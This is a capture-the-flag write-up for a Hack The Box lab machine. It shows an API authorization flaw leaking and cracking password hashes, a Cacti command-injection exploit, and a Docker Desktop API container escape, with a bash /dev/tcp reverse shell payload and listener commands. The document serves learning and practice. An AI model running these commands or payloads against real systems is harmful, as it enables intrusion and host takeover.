








# MonitorsFour

<div class="wu-meta" markdown="span">
<span class="wu-badge wu-os">:fontawesome-brands-windows: Windows</span>
<span class="wu-badge wu-diff wu-diff--easy">Easy</span>
<span class="wu-tags">
<span class="wu-tag">API authorization</span>
<span class="wu-tag">Cacti</span>
<span class="wu-tag">Docker Desktop</span>
</span>
</div>

!!! abstract "What this box demonstrates"
    The Windows scan led to a Linux shell, so checking execution context mattered. Cacti ran in a container; the next boundary was Docker Desktop's API and its ability to mount the host filesystem into a new container.

## Attack path

1. Request the user API with token=0 and recover Cacti credentials.
2. Exploit Cacti 1.2.28 for a shell inside its Linux container.
3. Reach Docker Desktop's internal API and start a container with the Windows drive mounted.

[HTB machine](https://app.hackthebox.com/machines/814) · [Official retirement evidence](https://labs.hackthebox.com/achievement/machine/2048041/814) (checked November 17, 2026).

## Overview

The saved text uses `10.129.12.34`, while screenshots show `10.129.6.91`. Use the currently spawned target address when following the commands.

First, we add the target IP to `/etc/hosts` so we can access it by hostname:

```bash
echo "10.129.12.34 monitorsfour.htb" | sudo tee -a /etc/hosts
```

The target hosts the corporate website of "MonitorsFour", which positions itself as a premium provider of networking solutions. The site looks like a typical corporate landing page; however, the presence of an authentication system suggests that the entry point is likely either on the main site itself or on hidden subdomains.

## Reconnaissance

### Port scanning

I started with a full TCP scan, then used the discovered web service to guide virtual-host and endpoint enumeration.

```bash
nmap -sC -sV -p- 10.129.12.34 -oN nmap_full.txt
```

**Results:**
```text
PORT     STATE SERVICE VERSION
80/tcp   open  http    nginx
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: MonitorsFour - Networking Solutions
5985/tcp open  http    Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

We only see two open ports—the attack surface is small but sufficient. The `PHPSESSID` cookie hints at a PHP application behind Nginx, so it’s worth looking for typical web vulnerabilities: SQL injection, LFI, IDOR, and so on.

Port `5985` (WinRM), Windows Remote Management, is used for remote administration of Windows systems. It may come in handy later—if we find valid Windows credentials, we can get a full shell via `evil-winrm`.

**Open ports:**

- **80** - Nginx (web server with PHP)
- **5985** - WinRM (Windows Remote Management)

### Subdomain Discovery

As we’ve seen, the main site looks like a typical landing page with no obvious vulnerabilities—static pages, a contact form, nothing interesting at first glance. In cases like this, it often makes sense to try to find hidden subdomains. In my experience, those often host admin panels, monitoring systems, dev environments, or internal services that aren’t meant for public access and may be less protected.

```bash
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt \
     -u http://monitorsfour.htb \
     -H "Host: FUZZ.monitorsfour.htb" -ac
```

<figure class="wu-evidence" markdown>

<figcaption>Virtual-host discovery identifies the Cacti site.</figcaption>
</figure>

**Results:**
```yaml
cacti     [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 51ms]
```

Great! We found the `cacti` subdomain. Cacti is a popular open-source network monitoring system built around [RRDtool](https://oss.oetiker.ch/rrdtool/).

Historically, [Cacti](https://www.cacti.net/) has had many CVEs, including critical RCE vulnerabilities. It works with a database, accepts user input for building graphs, uses external utilities (rrdtool), and each of these components can be a potential attack vector.

Add it to `/etc/hosts`:

```bash
echo "10.129.12.34 cacti.monitorsfour.htb" | sudo tee -a /etc/hosts
```

## Obtaining credentials (IDOR)

Since Cacti requires authentication, let’s return to the main site and look for hidden endpoints. We run directory and API endpoint fuzzing:

```bash
ffuf -w /usr/share/seclists/Discovery/Web-Content/api/api-endpoints.txt \
     -u http://monitorsfour.htb/FUZZ -ac
```

<figure class="wu-evidence" markdown>

<figcaption>Endpoint discovery finds the versioned user API.</figcaption>
</figure>

The saved request is `GET /api/v1/user?token=0`. The endpoint returned multiple user records, including password hashes, without establishing authorization to read them. That response, rather than any assumption about what zero should mean, confirmed the exposure.

<figure class="wu-evidence" markdown>

<figcaption>The saved request uses /api/v1/user with token=0.</figcaption>
</figure>

<figure class="wu-evidence" markdown>

<figcaption>The user API returns account records and lab password hashes.</figcaption>
</figure>

**Server response:**
```json
[
  {
    "id": 2,
    "username": "admin",
    "email": "admin@monitorsfour.htb",
    "password": "56b32eb43e6f15395f6c46c1c9e1cd36",
    "role": "super user",
    "token": "8024b78f83f102da4f",
    "name": "Marcus Higgins",
    "position": "System Administrator"
  },
  {
    "id": 5,
    "username": "mwatson",
    "email": "mwatson@monitorsfour.htb",
    "password": "69196959c16b26ef00b77d82cf6eb169",
    "role": "user",
    "name": "Michael Watson"
  },
  {
    "id": 6,
    "username": "janderson",
    "email": "janderson@monitorsfour.htb",
    "password": "2a22dcf99190c322d974c8df5ba3256b",
    "role": "user",
    "name": "Jennifer Anderson"
  },
  {
    "id": 7,
    "username": "dthompson",
    "email": "dthompson@monitorsfour.htb",
    "password": "8d4a7e7fd08555133e056d9aacb1e519",
    "role": "user",
    "name": "David Thompson"
  }
]
```

The hashes we got are 32 characters long, which is typical for MD5. As we know, MD5 is considered insecure, since there are huge databases of precomputed hashes (rainbow tables).

<figure class="wu-evidence" markdown>

<figcaption>The administrator hash resolves to wonderful1.</figcaption>
</figure>

We use the online service [CrackStation](https://crackstation.net/), which contains billions of precomputed hashes:

| Hash | Password |
|-----|----------|
| `56b32eb43e6f15395f6c46c1c9e1cd36` | **wonderful1** |

At first I tried logging into Cacti as `admin:wonderful1`, but it wouldn’t let me in. Then I tried plausible usernames based on the profile data (name `Marcus Higgins`, email `admin@...`): `marcus`, `mhiggins`, `higgins`... and `marcus:wonderful1` turned out to be the correct combo.

**Cacti credentials obtained:** `marcus:wonderful1`

## Exploiting Cacti (CVE-2025-24367)

**CVE-2025-24367** is a Cacti vulnerability (affecting versions **<= 1.2.28**) that allows arbitrary code execution (RCE) via command injection in the Graph Template field. The issue occurs due to insufficient sanitization of data passed into the rrdtool utility. A public PoC is available on GitHub: [CVE-2025-24367-Cacti-PoC](https://github.com/TheCyberGeek/CVE-2025-24367-Cacti-PoC).

Go to `http://cacti.monitorsfour.htb` and log in using:

- **Username:** marcus
- **Password:** wonderful1

At the top of the page, we notice the Cacti version and confirm it: **1.2.28**

<figure class="wu-evidence" markdown>

<figcaption>Cacti identifies version 1.2.28 after Marcus logs in.</figcaption>
</figure>

The exploit authenticates to Cacti, uses the graphs/templates functionality to generate a PHP file in the web root, then triggers it to execute and deliver a reverse shell. The recorded PoC started its own HTTP server on port 80 for payload delivery. Its callback in this run used port 9010.

Clone the repo and start a listener in a separate terminal:

```bash
git clone https://github.com/TheCyberGeek/CVE-2025-24367-Cacti-PoC.git
cd CVE-2025-24367-Cacti-PoC
```

```bash
nc -lvnp 9010
```

Run the exploit with our parameters:

```bash
python3 exploit.py -url http://cacti.monitorsfour.htb -u marcus -p wonderful1 -i 10.10.14.66 -l 9010
```

> Obtaining the shell was a little weird.. I had to start the nc listener *after* I ran the payload above 

```diff
+ [+] Cacti Instance Found!
+ [+] Serving HTTP on port 80
+ [+] Login Successful!
+ [+] Got graph ID: 226
# [i] Created PHP filename: rKQT0.php
+ [+] Got payload: /bash
# [i] Created PHP filename: 4bWsW.php
+ [+] Hit timeout, looks good for shell, check your listener!
+ [+] Stopped HTTP server on port 80
```

<figure class="wu-evidence" markdown>

<figcaption>The Cacti exploit callback runs as www-data inside the container.</figcaption>
</figure>

In the netcat terminal we catch a shell, and the hostname immediately stands out: `821fbd6a43fa`. That’s a shortened container ID—typical for Docker. So we didn’t land on the Windows host, but inside an isolated Linux environment within a container.

At the same time, Nmap initially showed `Service Info: OS: Windows`. That isn’t an error: the target runs Docker Desktop, which uses WSL2 as its backend. Cacti is running in a container, but the host system is Windows. That’s enough to get the user flag, but to get root we’ll need to break out.

After getting a shell, the first thing to do is verify context: which user we are and what’s available. We’re `www-data`, the standard account for web services—minimal privileges. Running `id` shows no interesting groups—just `www-data`. Next, we inspect `/home` and find the `marcus` user directory. Inside, there’s `user.txt`. The file is mode 644, so it’s readable without issues:

```bash
www-data@821fbd6a43fa:~/html/cacti$ whoami
www-data

www-data@821fbd6a43fa:~/html/cacti$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

www-data@821fbd6a43fa:~/html/cacti$ ls -la /home
total 12
drwxr-xr-x 3 root   root   4096 Oct 15 12:34 .
drwxr-xr-x 1 root   root   4096 Oct 15 12:34 ..
drwxr-xr-x 2 marcus marcus 4096 Oct 15 12:34 marcus

www-data@821fbd6a43fa:~/html/cacti$ ls -la /home/marcus
total 12
drwxr-xr-x 2 marcus marcus 4096 Oct 15 12:34 .
drwxr-xr-x 3 root   root   4096 Oct 15 12:34 ..
-rw-r--r-- 1 marcus marcus   33 Oct 15 12:34 user.txt

www-data@821fbd6a43fa:~/html/cacti$ cat /home/marcus/user.txt
[flag omitted]
```

User flag obtained! But this isn’t the end—we’re in a container, and the root flag is on the host machine.

## Privilege Escalation (CVE-2025-9074)

We have a shell, but we’re inside a Docker container with restricted privileges. To reach the root flag, we need to escape from the container onto the host. In this situation, the first thing I check is whether we can access Docker Engine (via a Docker socket or Docker API), because that often leads directly to mounting the host filesystem.

[CVE-2025-9074](https://nvd.nist.gov/vuln/detail/CVE-2025-9074) is a Docker Desktop vulnerability where locally running Linux containers can connect to the Docker Engine API over Docker Desktop’s internal subnet **without authentication**. The description explicitly mentions the default endpoint `192.168.65.7:2375`, and importantly, this can happen **regardless** of ECI and the `Expose daemon on tcp://localhost:2375 without TLS` option.

### Finding the Docker API

First, we confirm we’re in a container and inspect the network environment. We need to understand which subnet we’re in and which addresses are reachable. We look for the gateway, DNS servers, and any other hosts we can reach:

```bash
www-data@821fbd6a43fa:~/html/cacti$ hostname
821fbd6a43fa

www-data@821fbd6a43fa:~/html/cacti$ ip addr
2: eth0@if6: <BROADCAST,MULTICAST,UP,LOWER_UP>
    inet 172.18.0.3/16 brd 172.18.255.255 scope global eth0
```

Docker’s API typically listens on port 2375 (no TLS) or 2376 (TLS). If the API is accessible without authentication, we can create a privileged container and access the host filesystem—this is a classic container escape technique. We start by checking the container gateway, which is usually the first address in the subnet:

```bash
www-data@821fbd6a43fa:~/html/cacti$ ip route
default via 172.18.0.1 dev eth0 
172.18.0.0/16 dev eth0 proto kernel scope link src 172.18.0.3

www-data@821fbd6a43fa:~/html/cacti$ curl http://172.18.0.1:2375/version
curl: (7) Failed to connect to 172.18.0.1 port 2375 after 0 ms: Could not connect to server
```

No luck—the gateway is just a virtual interface of the bridge network. Next, we try `host.docker.internal`, a special DNS name that Docker Desktop creates to access the host from inside containers:

```bash
www-data@821fbd6a43fa:~/html/cacti$ curl -v http://host.docker.internal:2375/version
* Host host.docker.internal:2375 was resolved.
* IPv6: fdc4:f303:9324::254
* IPv4: 192.168.65.254
*   Trying 192.168.65.254:2375...
* connect to 192.168.65.254 port 2375 from 172.18.0.2 port 38548 failed: Connection refused
curl: (7) Failed to connect to host.docker.internal port 2375 after 19 ms: Could not connect to server
```

Still no, but we got valuable information. `host.docker.internal` resolves to two addresses: IPv6 `fdc4:f303:9324::254` (unreachable: Network is unreachable) and IPv4 `192.168.65.254` (Connection refused). That’s Docker Desktop’s internal subnet on Windows. The `192.168.65.0/24` range is used by Docker Desktop for communication between the host and containers. The API isn’t on `.254`, but that doesn’t mean it isn’t elsewhere on that subnet.

We also check whether a Docker socket is mounted inside the container:

```bash
www-data@821fbd6a43fa:~/html/cacti$ ls -la /var/run/docker.sock 2>/dev/null
www-data@821fbd6a43fa:~/html/cacti$ find / -name "docker.sock" 2>/dev/null
```

Nothing again—no socket mounted.

**Scanning 192.168.65.0/24:**

Since `host.docker.internal` points to `192.168.65.254` but the API isn’t there, the Docker Engine might be listening on another IP in the same subnet. We brute-force all addresses from 1 to 254. The subnet is small, so it only takes a couple of seconds:

```bash
www-data@821fbd6a43fa:~/html/cacti$ for i in $(seq 1 254); do (curl -s --connect-timeout 1 http://192.168.65.$i:2375/version 2>/dev/null | grep -q "ApiVersion" && echo "192.168.65.$i:2375 OPEN") & done; wait
192.168.65.7:2375 OPEN
```

And finally—we get a hit. The Docker API is open on `192.168.65.7`.

```text
192.168.65.7:2375 OPEN
```

### Exploitation

We confirm the API responds and check the version:

```bash
www-data@821fbd6a43fa:~/html/cacti$ curl http://192.168.65.7:2375/version
```

```json
{
    "Platform": {
        "Name": "Docker Engine - Community"
    },
    "Components": [
        {
            "Name": "Engine",
            "Version": "28.3.2",
            "Details": {
                "ApiVersion": "1.51",
                "Arch": "amd64",
                "BuildTime": "2025-07-09T16:13:55.000000000+00:00",
                "Experimental": "false",
                "GitCommit": "e77ff99",
                "GoVersion": "go1.24.5",
                "KernelVersion": "6.6.87.2-microsoft-standard-WSL2",
                "MinAPIVersion": "1.24",
                "Os": "linux"
            }
        },
        {
            "Name": "containerd",
            "Version": "1.7.27",
            "Details": {
                "GitCommit": "05044ec0a9a75232cad458027ca83437aae3f4da"
            }
        },
        {
            "Name": "runc",
            "Version": "1.2.5",
            "Details": {
                "GitCommit": "v1.2.5-0-g59923ef"
            }
        },
        {
            "Name": "docker-init",
            "Version": "0.19.0",
            "Details": {
                "GitCommit": "de40ad0"
            }
        }
    ],
    "Version": "28.3.2",
    "ApiVersion": "1.51",
    "MinAPIVersion": "1.24",
    "GitCommit": "e77ff99",
    "GoVersion": "go1.24.5",
    "Os": "linux",
    "Arch": "amd64",
    "KernelVersion": "6.6.87.2-microsoft-standard-WSL2",
    "BuildTime": "2025-07-09T16:13:55.000000000+00:00"
}
```

The Docker API is accessible without authentication—this is **CVE-2025-9074** (CVSS 9.3), a critical Docker Desktop vulnerability allowing containers to connect to the Docker Engine API over the internal subnet without authentication.

Next, we list available images:

```bash
www-data@821fbd6a43fa:~/html/cacti$ curl -s http://192.168.65.7:2375/images/json | grep -o '"RepoTags":\[[^]]*\]'
```

```yaml
"RepoTags":["docker_setup-nginx-php:latest"]
"RepoTags":["docker_setup-mariadb:latest"]
"RepoTags":["alpine:latest"]
```

Now we need to create a container that mounts the host filesystem. On our attacking machine, we prepare a JSON config. The key part is `Binds`: it mounts the host’s `C:\` drive into the container. The path `/mnt/host/c` is how Docker Desktop on Windows exposes the host filesystem via WSL2. The recorded payload uses the already available `docker_setup-nginx-php:latest` image, which supplies `/bin/bash`:

```bash
cat > /tmp/container.json << 'EOF'
{
    "Image": "docker_setup-nginx-php:latest",
    "Cmd": [
        "/bin/bash",
        "-c",
        "bash -i >& /dev/tcp/10.10.14.66/1111 0>&1"
    ],
    "HostConfig": {
        "Binds": [
            "/mnt/host/c:/host_root"
        ]
    }
}
EOF

cd /tmp && python3 -m http.server 8000
```

Inside the container, we download the payload, create the container, and start it via the Docker API:

```bash
curl http://10.10.14.66:8000/container.json -o /tmp/container.json
```

```bash
curl -X POST -H "Content-Type: application/json" -d @/tmp/container.json http://192.168.65.7:2375/containers/create?name=pwnedlad

{"Id":"443c3976704185d462619b7ac3748e8ecbc13f1a6fdddb7adf3b60580f27e216","Warnings":[]}
```

Setup the netcat listener to catch the shell:
```bash
nc -lvnp 1111
```

Start the container. The saved create response and start command contain different IDs from separate captures; use the ID returned by your own create request. The start request below is the one preserved in the execution screenshot:
```bash
curl -X POST "http://192.168.65.7:2375/containers/d81e3e2c511fbcab5c083e4c17ce905009795176b5d07262b30ea03067da830f/start"
```

<figure class="wu-evidence" markdown>

<figcaption>Starting the host-mounted container produces a root shell inside that container.</figcaption>
</figure>

The callback is root **inside the new container**. Its `/host_root` mount exposes the Windows drive; the notes record obtaining the host proof there. This is host-filesystem access, not evidence of an interactive Windows SYSTEM shell.

This machine is great for reinforcing a few practical lessons: don’t stop at the first shell, always pay attention to *where* you landed (container vs host), and remember that Docker Desktop on Windows introduces its own quirks in the network model and isolation boundaries.

## Lessons learned

A root shell inside a Linux container is different from a Windows SYSTEM session. Here the Docker API crossed the important boundary by allowing a container to mount the Windows host drive.
